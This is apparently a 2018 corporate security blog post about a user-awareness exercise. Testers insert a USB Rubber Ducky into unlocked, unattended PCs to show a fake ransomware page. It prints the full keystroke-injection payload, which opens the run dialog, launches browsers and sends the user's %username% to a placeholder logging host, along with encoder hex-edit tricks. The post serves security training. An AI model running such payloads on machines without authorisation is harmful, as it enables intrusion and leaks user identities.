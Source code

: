 ```yaml
---
layout: post
title: "Unattended, unlocked, unprotected terminals - User security training with USB Rubber Ducky"
date: 2018-08-21 00:00
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training, we perform tests of our
personnel in the work environment.  One training exercise involved testing for
unattended computers by inserting a USB device that would display a ransomware
screen.

<!-- more -->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find
information about it at:

* [Hak5's hackshop.com](http://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID
keyboard.  After it's plugged in, a payload programmed into the device sends
keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer
without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and
had not been locked (left at the desktop screen).  If we discovered an unattended
computer, we inserted the USB Rubber Ducky into a USB port which delivered our
payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and
provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the
[USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky)
encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key
combination of **win + CTRL + desktop** (open a new virtual desktop).  I
overcame this limitation by manually editing the compiled **inject.bin** with a
hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project,
the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally,
the encoder would have support for more key combinations, but most desired
actions can be done without using a hex editor.  I was successful in getting
**STRING_DELAY** added to the official code base, and this script command is
very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the
security risk to company data.  It creates more ownership (versus just an email
note from security) by demonstrating real-world impact of what could happen
from a malicious actor.

![Ransomware Screen]({% asset_path 2018-08-21-unattended-unlocked-unprotected-terminals-user-security-training/ransomware.png %})

Use the Feedback tab to make any comments or ask questions.
